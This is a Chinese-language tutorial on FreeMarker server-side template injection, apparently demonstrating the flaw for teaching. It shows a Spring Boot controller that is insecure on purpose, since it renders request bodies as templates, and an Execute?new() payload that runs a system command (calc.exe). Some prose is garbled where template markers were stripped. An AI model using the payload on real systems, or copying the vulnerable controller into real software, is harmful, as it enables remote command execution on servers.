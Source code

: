     
    
    <!DOCTYPE html><html><head>    <meta charset="UTF-8">    <title>${title}</title></head><body>    <h1>${message}</h1></body></html>

  

其中是模板引擎中的一个表达式，用于在模板中显示后端传递给模板的变量的值。我们需要在后端代码中将一个变量赋值给模板中的是FreeMarker模板引擎中的一个表达式，用于在模板中显示后端传递给模板的变量的值。我们需要在后端代码中将一个变量赋值给模板中的{}表达式，然后在模板渲染时，该表达式会被解析和渲染为变量的实际值。

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619163528.png)

  

  

此外，Freemarker模板还支持内置函数，所以我们可以通过freemarker.template.utility
里的一个Execute类构造恶意代码如下：

  *   * 

    
    
    <#assign value="freemarker.template.utility.Execute"?new()> ${value("cmd /c calc.exe")}

*左右滑动查看更多  

  

通过调用Execute类的new方法来创建一个Execute对象。这个Execute对象可以用来执行任意的系统命令。

  

下面我们通过代码演示一下真实环境下SSTI：

  

创建spring boot项目并在pom文件添加依赖：

  *   *   *   * 

    
    
    <dependency><groupId>org.springframework.boot</groupId><artifactId>spring-boot-starter-freemarker</artifactId></dependency>

  

*左右滑动查看更多

  

后端代码：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package com.example.demo;  
    import freemarker.cache.StringTemplateLoader;import freemarker.core.TemplateClassResolver;import freemarker.template.Configuration;import freemarker.template.Template;import freemarker.template.TemplateException;import org.springframework.stereotype.Controller;import org.springframework.web.bind.annotation.RequestBody;import org.springframework.web.bind.annotation.RequestMapping;import java.io.IOException;import java.io.StringWriter;import java.util.LinkedHashMap;import java.util.Map;  
    @Controllerpublic class SSTIdemo {    @RequestMapping("/Template")    public String importTemplate (@RequestBody String a) throws IOException, TemplateException {        Configuration configuration = new Configuration(Configuration.getVersion());        StringTemplateLoader stringTemplateLoader = new StringTemplateLoader();        Template template;        Map data = new LinkedHashMap();        StringWriter stringWriter = new StringWriter();  
            stringTemplateLoader.putTemplate("test.ftl", a);// 将模板内容添加到StringTemplateLoader中        configuration.setTemplateLoader(stringTemplateLoader);  
            template = configuration.getTemplate("test.ftl");        template.process(data, stringWriter);//渲染模板        System.out.println(stringWriter.toString());        return stringWriter.toString();    }}
